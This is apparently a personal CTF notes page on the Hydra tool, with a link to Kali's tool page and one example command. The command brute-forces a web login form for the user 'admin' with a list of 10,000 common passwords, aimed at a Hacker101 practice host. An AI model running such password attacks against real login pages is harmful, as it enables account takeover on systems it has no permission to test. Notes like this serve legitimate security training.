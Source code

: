 ```yaml
---
{"dg-publish":true,"permalink":"/itsi/tools/hydra/","title":"Hydra","tags":["tool","hydra","brute-force","passwords","ctf"]}
---
```


# Hydra
[Official Link](https://www.kali.org/tools/hydra/)
## Examples
```bash
hydra -l admin \                                                                                                                                                    
  -P Tools/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt \
  f030ceb1154faf1d02ba68c5e54756af.ctf.hacker101.com \
  https-post-form "/index.php?page=sign_in.php:username=^USER^&password=^PASS^:wrong username/password combination" \
  -t 16 -w 25 -W 3 -4 -V -o hydra-out.txt
```